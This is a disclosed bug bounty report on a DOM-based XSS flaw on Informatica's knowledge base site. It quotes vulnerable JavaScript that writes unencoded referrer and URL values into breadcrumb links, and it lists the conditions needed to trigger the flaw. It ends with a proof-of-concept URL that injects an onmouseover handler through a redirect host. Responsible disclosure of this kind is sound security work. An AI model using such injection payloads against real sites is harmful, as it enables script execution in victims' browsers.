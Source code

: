 # [kb.informatica.com] DOM based XSS in the bindBreadCrumb function

## Report Details
- **Report ID**: 189834
- **URL**: https://hackerone.com/reports/189834
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-12-09T13:44:42.532Z
- **Disclosed**: 2017-06-24T13:54:59.729Z

## Reporter
- **Username**: s_p_q_r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
The ***bindBreadCrumb*** function, which is called after the document is loaded:

```javascript
$(document).ready(function () {
    bindBreadCrumb();
});
```

has the following insecure link assignments, that use non-encoded URL values:

```javascript
strChild = "<a href='" + document.URL + "' style='color:#fff !important;font-size:10px'>Search Results</a>";

strChild = "<a href='" + varCoveoSearchResultPageURL + "' style='color:#999 !important;' >Search Results</a>";

strChild = "<a href='" + varDocumentReferrer + "' style='color:#999 !important;' >Search Results</a>";

strChild = "<a href='" + varStaticCoveoSearchResultPageURL + "' style='color:#999 !important;' >Search Results</a>";
```
etc.

This gives an attacker the opportunity to inject code with Javascript there.

 
As a proof of concept let's consider the case of the referrer value injection at the https://kb.informatica.com/solution/4/Pages/7377.aspx page:

```javascript
if (qString('myk') != '') {

	var previousUrl = document.referrer.toLowerCase();

	var varCoveoSearchResultPageName = fnGetSearchPageName();

	if (previousUrl.indexOf("/home.aspx") > -1) {
	
		<...>
		
	} else {
	
	if (varCoveoSearchResultPageName != "") {
	
		<...>
		
	} else {
		
		var varDocumentReferrer = document.referrer;

		if (varDocumentReferrer != "") {
		
			if (varDocumentReferrer.toLowerCase().indexOf(fnGetKBSFDCHostName()) != -1) {
			
				var li = document.createElement("li");
				strChild = "<a href='" + varDocumentReferrer + "' style='color:#999 !important;' >Search Results</a>";
				li.innerHTML = strChild;
				document.getElementById('DynamicBreadcrumb').appendChild(li);
				
			} else {
				
				<...>
				
			}
			
		}
		else {
			
			<...>
			
		}

	}
	
	<...>

	}
}
```

As we can see, for the attack to succeed, the query string parameter **myk** must be non-empty:

```javascript
if (qString('myk') != '') {
```

the **referrer** value most not contain **/home.aspx**:

```javascript
var previousUrl = document.referrer.toLowerCase();

if (previousUrl.indexOf("/home.aspx") > -1) {

	<...>
	
} else {
```

the **CoveoSearchUrl** cookie value must be mepty:

```javascript
function fnGetSearchPageName() {
	
	var searchPageName = GetKBCookieValue("CoveoSearchUrl");
	
	if (searchPageName != "") {
		searchPageName = searchPageName.split("/").slice(-1)[0].split("?")[0];
	}
	
	return searchPageName;
}

<...>

var varCoveoSearchResultPageName = fnGetSearchPageName();

if (varCoveoSearchResultPageName != "") {

	<...>
	
} else {
```

and the **referrer** value must contain **//search.informatica.com**:

```javascript
function fnGetKBSFDCHostName() {
	
	<...>
	
	if (document.location.href.indexOf("kb.informatica.com") > -1) {
		return "//search.informatica.com"; 
	}
	
	<...>
	
}

<...>

var varDocumentReferrer = document.referrer;

if (varDocumentReferrer != "") {
		
	if (varDocumentReferrer.toLowerCase().indexOf(fnGetKBSFDCHostName()) != -1) {
```

**PoC:**

1. Open the http://spqr.zz.mu/loc.php?//search.informatica.com&'/onmouseover='alert(document.domain)'&url=https://kb.informatica.com/solution/4/Pages/17377.aspx?myk=xxx link in IE
2. Wait for the page to load and put the mouse cursor over the "Search results" link on top

The script will be executed:

{F142063}

Tested with Internet Explorer 11.447 and Microsoft Edge 38.14393.

Same for the other link assignment cases.

## Attachments
- inf_xss.png
